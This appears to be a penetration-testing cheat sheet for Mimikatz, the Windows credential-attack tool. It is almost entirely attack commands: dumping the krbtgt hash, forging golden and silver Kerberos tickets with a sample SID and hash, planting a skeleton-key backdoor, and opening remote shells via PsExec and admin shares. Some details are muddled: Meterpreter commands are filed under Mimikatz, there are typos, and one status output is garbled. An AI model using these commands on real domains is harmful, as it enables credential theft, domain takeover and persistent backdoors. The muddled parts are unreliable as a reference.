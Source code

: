 ```yaml
---
title: MIMIKATZ
summary: "A tool to play with Windows security, written in C."
description: "A tool to play with Windows security, written in C."
---
```


**[https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)**

## MIMIKATZ Basis


 > 
 > **<font color=red>load kiwi</font>**</br>
 > Starts Mimikatz.

 > 
 > **<font color=red>help kiwi</font>**</br>
 > Show Mimikatz commands.


 > 
 > **<font color=red>privilege::debug</font>**</br>
 > Ensure that current user has administrator privileges (the output should be `[output '20' OK]`). This indicates that debugging a process is possible.

## MIMIKATZ Enumeration


 > 
 > **<font color=red>systeminfo</font>**</br>
 > Display system infos.
 > 
 > **<font color=red>ipconfig</font>**</br>
 > Display infos about network interfaces.

 > 
 > **<font color=red>getuid</font>**</br>
 > User infos.
 > 
 > **<font color=red>getprivs</font>**</br>
 > Display current user privileges. 

## MIMIKATZ File Upload


 > 
 > **<font color=red>upload</font> myFile**</br>
 > Transfer file to target.

## MIMIKATZ Spawn Shell


 > 
 > **<font color=red>shell</font>**</br>
 > Open a shell.

## MIMIKATZ Initial Access


 > 
 > **<font color=red>misc::cmd</font>**</br>
 > Open a new elevated command prompt with the given ticket in Minikatz.

 > 
 > **<font color=red>dir \\\\TARGET-MACHINE-NAME\\c$</font>**</br>
 > List files in c drive of the machine.

 > 
 > **<font color=red>PsExec.exe </font>\\\\TARGET-MACHINE-NAME<font color=red>cmd.exe</font>**
 > Get a shell on the machine.

## MIMIKATZ Golden/Silver Ticket


 > 
 > **<font color=red>lsadump::lsa /inject /name:</font>krbtgt**</br>
 > Dump hash and security identifier required to create a Golden Ticket. 

Note: To create a Silver Ticket, change the `/name:` to a domain admin account or a service account.

![lsadump-golden_ticket.png](../attachments/lsadump-golden_ticket.png)
Credit: TCM Security

 > 
 > **<font color=red>kerberos::golden /user:</font>Administrator <font color=red>/domain:</font>mycontroller.local <font color=red>/sid:</font>S-1-5-21-432953485-3795405108-1502158860  <font color=red>/krbtgt:</font>72cd714611b64cd4d5550cd2759db3f6 <font color=red>/id:500 /ptt</font>**</br>
 > Create a golden ticket (`/ptt` stands for Pass The Ticket, if we don’t put it, the command will save the ticket to a file).

Note: To create a Silver Ticket, simply put a service NTLM hash into the `/krbtgt:` slot, the sid of the service account into `/sid:`, and change the `/id:` to 1103.

## MIMIKATZ Skeleton Key


 > 
 > **<font color=red>misc::skeleton</font>**</br>
 > Create a backdoor with credentials "mimikatz". 

 > 
 > **<font color=red>dir \\\\</font>Desktop-1<font color=red>\\c$</font> <font color=red>/user:</font>Machine1 <font color=red>mimikatz</font>**
 > List C: drive content using Skleton Key backdoor. 
